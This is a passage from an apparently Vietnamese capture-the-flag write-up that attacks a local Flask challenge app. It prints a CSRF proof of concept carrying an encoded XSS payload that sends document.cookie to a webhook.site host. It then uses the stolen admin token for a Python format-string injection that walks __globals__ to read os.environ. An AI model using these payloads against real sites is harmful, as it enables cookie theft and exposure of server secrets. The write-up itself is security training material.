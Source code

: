 Ok payload trên chắc chắn không chạy được vì tag a chỉ được thêm payload chứ chưa có focus gì hết. Lúc này mình mới thêm đuôi #behindthename-redirect để trang web thực hiện focus và ta có payload sau.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1:5000/your-name#behindthename-redirect" method="POST">
      <input type="hidden" name="name" value="&#92;&quot;&#59;fetch&#40;&#96;&#47;&#47;webhook&#46;site&#47;4e8ba4a0&#45;ce61&#45;41ca&#45;b16f&#45;802804f6f5a2&#47;&#63;&#96;&#43;document&#46;cookie&#41;&#32;&#47;&#47;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


![image](https://hackmd.io/_uploads/rJx4dbEo1g.png)

Ok và ta đã có X-Admin-Token và mình sẽ xem hàm sau.


```python
@app.route('/admin', methods=['GET'])
def admin():
    if request.cookies.get('X-Admin-Token') != X_Admin_Token:
        return 'Access denied', 403
    
    prompt = request.args.get('prompt')
    return render_template('admin.html', cmd=f"{prompt if prompt else 'prompt$/>'}{run_cmd()}".format(run_cmd))
```

Có thể thấy từ query prompt sẽ được render ra web nên mình thử số 0 xem. Wow nó trả ra hàm run_cmd. Ok và ta xác định mục tiêu là lấy dược environment

```{0}```


![image](https://hackmd.io/_uploads/SyQ75WViyl.png)

Từ đây mình có nhiều hướng để khai thác như lấy các biến có trong app flask

```{0.__globals__}```

![image](https://hackmd.io/_uploads/HywPTbNjyx.png)

Nhảy vào app flask và gọi hàm nguyên thủy của nó

```{0.__globals__[app].__init__}```

![image](https://hackmd.io/_uploads/rJAjA-EjJx.png)

Lấy các biến có trong môi trường python

```{0.__globals__[app].__init__.__globals__}```

![image](https://hackmd.io/_uploads/HJ1TCWEo1x.png)

Lấy lệnh sys và lấy environment của máy. Và từ đó ta có flag được add vào environment từ trước.

```{0.__globals__[app].__init__.__globals__[sys].modules[os].environ}```
```